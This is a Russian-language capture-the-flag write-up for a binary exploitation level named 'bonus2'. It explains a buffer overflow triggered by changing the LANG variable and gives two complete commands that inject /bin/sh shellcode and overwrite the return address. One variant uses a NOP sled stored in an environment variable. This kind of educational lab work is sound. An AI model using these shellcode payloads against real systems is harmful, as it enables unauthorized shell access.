

## bonus2
B этом уровне мы можем заметить наличие двух функций `main()` и `greetuser()`. кроме того, в глаза бросается использование переменной окружения. Вызова оболочки в коде нет, поэтому необходимо прописывать shellcode. 



### Первый способ:

Записать shellcode в буфер функции `main()` и записать адрес буфера в регистр `eip`. Достаточное переполнение буфера невозможно при приветствии по-английски (5 символов). Поэтому надо сменить значение переменной окружения `LANG` на `fi` или `nl`. Рассмотрим вариант с финским приветствием - тут оффсет нужного регистра - 18. Адрес буфера - `0xbffff6d0`.

Итоговая команда:

```sh
$ LANG=fi ./bonus2 $(python -c 'print "a"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "a"*18 + "\xd0\xf6\xff\xbf"')
```

### Второй способ:

Записать shellcode не в буфер, а в переменную окружения, так как это делает взаимодействие с памятью более стабильным. Для этого понадобится так же найти адрес переменной окружения. 

Итог:

```sh
$ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a"*18 + "\x10\xf5\xff\xbf"')
```
